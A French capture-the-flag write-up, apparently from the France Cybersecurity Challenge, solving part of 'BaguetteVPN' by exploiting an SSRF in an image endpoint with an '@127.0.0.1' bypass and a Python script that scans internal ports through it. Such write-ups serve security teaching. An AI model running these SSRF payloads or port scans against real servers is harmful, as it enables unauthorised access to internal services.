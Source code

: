 # BaguetteVPN 2/2
On se retrouve pour la partie la plus compliquée du challenge.<br/>
## Résolution
Pour commencer, brêve analyse du fichier ```./baguettevpn_server_app_v0.py```.<br/>
Cette fonction devrait nous print le flag:<br/>
```py
@app.route("/api/secret")
def admin():
    if request.remote_addr == '127.0.0.1':
        if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12':
            return jsonify({"secret": os.getenv('FLAG')})
        return Response('Interdit: mauvaise clé d\'API', status=403)
    return Response('Interdit: mauvaise adresse IP', status=403)
```
Cependant, on est confronté face à plusieurs conditions.<br/>
On doit trouver un moyen de requêter à travers le serveur, on s'attend donc à exploiter une faille de type SSRF.<br/>
On s'attaquera à la deuxième condition plus tard.<br/>
En fouillant le site, j'apperçois un point d'injection pottentiellement vulnérable à une SSRF.<br/>
Le paramètre ```/api/image?fn=``` permet de read des fichiers internes.<br/>
Je décide donc d'exploiter ce paramètre, en me munissant de ce cheatsheet plutôt complet: <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery">Link</a>.<br/>
En premier temps j'essaye  ```/api/image?fn=127.0.0.1```.<br/>
Malheureusement la requête ne passe pas, j'ajoute donc un ```@``` pour bypass les weak parsers.<br/>
Toujours rien, en regardant l'énoncé du challenge. Je vois qu'une énumération des ports inférieurs à 2000 est autorisée.<br/>
Je fais donc la même chose en gardant la même injection ```/api/image?fn=@127.0.0.1:[port]``` et en énumérant les ports.<br/>
Pour ce faire, j'ai fait un script afin d'automatiser tout ça.<br/>
```py
import requests as r

if __name__ == "__main__":
	with r.session() as s:
		for i in range(0, 2000 + 1):
			response = s.get("http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:%s" % (str(i)))
			if "Internal Server Error" not in response.text:
				print(response.url)
```
Après quelques minutes je vois que le port ```1337``` a été match.<br/>
Je me rends donc à ```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337```
